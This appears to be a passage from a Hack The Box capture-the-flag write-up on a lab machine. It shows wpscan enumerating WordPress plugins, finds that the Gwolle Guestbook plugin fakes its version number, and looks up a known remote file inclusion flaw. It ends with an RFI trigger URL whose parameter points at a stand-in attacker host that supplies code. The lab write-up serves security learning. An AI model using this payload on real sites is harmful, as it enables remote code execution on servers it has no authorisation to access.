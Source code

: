 ```bash
$ wpscan --url http://10.10.10.88/webservices/wp/ -e p  --plugins-detection aggressive

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
 | Last Updated: 2021-03-02T18:10:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 4.1.9
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.0.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt

[+] gwolle-gb
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2021-03-03T11:41:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.1.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 [+] Elapsed time: 00:00:52
```

Version came out as `2.3.10` _"Version: 2.3.10 (100% confidence)"_
I see a readme.txt as output in wpscan output at `/wp/wp-content/plugins/gwolle-gb/readme.txt`. I tried to find the version in readme, it's much down below between a lot of output but here it is: 
```html
== Changelog ==

= 2.3.10 =
* 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D
```
Also it says that the version is being fake to be `2.3.10` but it's `1.5.3`. -_-

Let's google if it has some vulnerabilities:
```bash
root@TheCaretaker:~/HTB# googler gwolle-gb 1.5.3 exploitdb

 1.  WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File ...
     https://www.exploit-db.com/exploits/38861
     03-Dec-2015 —

 2.  WordPress Plugin Gwolle Guestbook Remote File Inclusion ...
     https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-gwolle-guestbook-remote-file-inclusion-1-5-3/
     WordPress Plugin Gwolle Guestbook is prone to a remote file inclusion vulnerability because it fails to properly verify user-supplied input.
```
It's vulnerable to  Remote File Inclusion (RFI).
Which you can trigger with this syntax url: `http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]`